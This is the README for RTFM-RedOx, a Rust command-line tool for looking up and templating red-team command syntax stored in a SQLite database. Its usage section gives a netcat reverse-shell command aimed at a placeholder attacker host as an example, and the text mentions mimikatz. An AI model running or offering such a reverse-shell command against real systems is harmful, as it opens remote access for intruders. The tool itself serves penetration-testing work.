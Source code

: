 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [RevShells.com](https://revshells.com/).  

## Features
- A command line interface that includes a quick search for commands and comments within the included database.  Searching on a command's comments is useful for something like mimikatz, where mimikatz isn't in the actual command syntax itself, but is referenced in the comments.  
- There is variable replacement similar to msfconsole.  Variables can be added to any command. 
- Update command syntax already in the database as well as add new commands.  
- Multiple references (typically hyperlinks) can be added to commands for things like cheatsheets, explainer videos, tutorials, whatever.  

The ultimate purpose of this is to eliminate the need to leave the terminal to open a note taking app or web browser to search for command syntax and usage, and to not have to repeatedly type in the same remote/local host ips, ports or urls since those are saved as variables within the CLI and automatically replaced in the command before it is copied to the clipboard.

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I'm gradually adding new commands and pushing the edited db file to the repository.    

## Usage
```
Ctrl+r           Cycle through search options to dynamically find commands as you type.
                 Allows searching within commands and comments.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
set              Set a user variable e.g. set lhost 10.10.16.3
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in the redox CLI. And in some cases Ctrl+h stops working, so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows**: Not supported because the Termion crate does not work on windows.  I'll be switching to crossterm at some point.


## To Add
- [X] Search checks against both command and comment field via Ctrl+r toggle search mode
- [ ] Selectable list of tags to retrieve grouped commands
- [ ] Delete functionality for rows and columns in the database
    - For example, Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.  Deleting references and tags from a command will be done with 'delete tag <id>' or 'delete reference <id>'.  Ids will be displayed next to tags and references in the info for the command.    
- [ ] Add config file to persist user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands from the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Add a local references option via the soon to be added config file for references to notes and scripts on the local filesystem.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Switch from termion to crossterm for Windows support.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

